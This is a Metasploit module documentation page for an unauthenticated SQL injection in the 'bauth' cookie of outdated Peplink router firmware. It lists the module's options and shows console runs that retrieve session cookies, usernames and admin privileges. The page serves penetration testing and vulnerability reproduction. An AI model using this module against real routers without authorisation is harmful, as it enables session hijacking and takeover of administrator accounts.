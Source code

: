 ## Vulnerable Application

### Introduction

This module exploits an SQLi vulnerability in the web interface of Peplink
routers running outdated firmware (confirmed on version 7.0.0-build1904 and below).

The vulnerability is due to the lack of sanitization applied to the bauth cookie,
Successful exploitation of the vulnerability allows unauthenticated attackers to get
into sessions of legitimate users (bypassing authentication).

Exploitation of this vulnerability requires that there is at least one active user session
created in the last 4 hours (or session lifetime if it was modified).

## Verification Steps


## Options

### AdminOnly

Only attempt to retrieve cookies of privilegied users (admins)

### EnumPrivs

Retrieve the privilege associated with each session

### EnumUsernames

Retrieve the username associated with each session

### LimitTries

The max number of sessions to try (from most recent), set to avoid checking expired ones needlessly

## Scenarios

Vulnerable firmware downloadable from [here](https://www.peplink.com/support/downloads/archive/).
It's possible to reproduce the vulnerability without owning a peplink router, using
[FusionHub](https://www.peplink.com/products/fusionhub/).
Refer to its installation guide, use a free Solo license.

### Firmware version 6.3.2

Default options:

```
msf5 auxiliary(sqli/peplink_bauth_sqli) > run 
[*] Running module against 192.168.1.254

[+] Target seems vulnerable
[*] There are 1 (possibly expired) sessions
[*] Trying the ids from the most recent login
[+] Found cookie aLvFyqho3JYoYSc7EROYWU5A7c4pz9IwV66mvnIzYwMPr
[*] Auxiliary module execution completed
msf5 auxiliary(sqli/peplink_bauth_sqli) > 
```

EnumPrivs and EnumUsernames:

```
msf5 auxiliary(sqli/peplink_bauth_sqli) > set EnumPrivs true 
EnumPrivs => true
msf5 auxiliary(sqli/peplink_bauth_sqli) > set EnumUsernames true 
EnumUsernames => true
msf5 auxiliary(sqli/peplink_bauth_sqli) > run 
[*] Running module against 192.168.1.254

[+] Target seems vulnerable
[*] There are 2 (possibly expired) sessions
[*] Trying the ids from the most recent login
[+] Found cookie wPJLPS6lqt8Ushwz1tlmz5tRbvI1ybwWRaBx2GRi3Qcu8, username = user, with read-only permissions
[+] Found cookie aLvFyqho3JYoYSc7EROYWU5A7c4pz9IwV66mvnIzYwMPr, username = admin, with read/write permissions
[*] Auxiliary module execution completed
msf5 auxiliary(sqli/peplink_bauth_sqli) > 
```
